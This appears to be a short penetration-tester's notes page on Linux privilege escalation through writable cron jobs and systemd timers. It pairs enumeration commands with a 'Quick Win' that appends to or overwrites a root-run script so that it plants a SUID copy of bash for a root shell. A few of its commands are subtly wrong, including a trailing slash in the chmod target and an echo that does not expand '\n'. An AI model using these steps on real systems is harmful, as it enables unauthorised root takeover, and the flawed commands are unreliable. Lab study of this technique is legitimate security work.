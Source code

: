 -- -
Scheduled tasks that depending on their permissions and their use of paths, can let you hijack them to get a shell on a timed interval.
```bash
# you are looking for cronjobs owned/run by root that run custom scripts or custom software, but usually custom scripts. 
cat /etc/crontab
crontab -l 
```
From here, [[Dark Arts/Privesc/Linux/Exploits/Cron Jobs|Exploit]]
#### systemd timers
This is technically not cron jobs, but the function in the same way, they are just programs ran on a timer using systemd rather than cron, so I include them here. 
```bash
systemctl list-timers --all
```
[[Dark Arts/Privesc/Linux/Exploits/Cron Jobs|Exploitation]] will be the same as you would a Cron Job. 
#### Quick Win
```bash
# standard enum
cat /etc/crontab
crontab -l

# then if you see a script, in our example /usr/local/bin/overwrite.sh, then check its permissions
ls -la /usr/local/bin/overwrite.sh

# then you can replace the file entirely, add to it via a text editor or just append to the end via comand line
# append:
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash/' >> /usr/local/bin/overwrite.sh

#overwrite
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash/' > /usr/local/bin/overwrite.sh

# or overwrite may need something like:
echo '#!/bin/bash\ncp /bin/bash /tmp/bash; chmod +s /tmp/bash/' > /usr/local/bin/overwrite.sh
```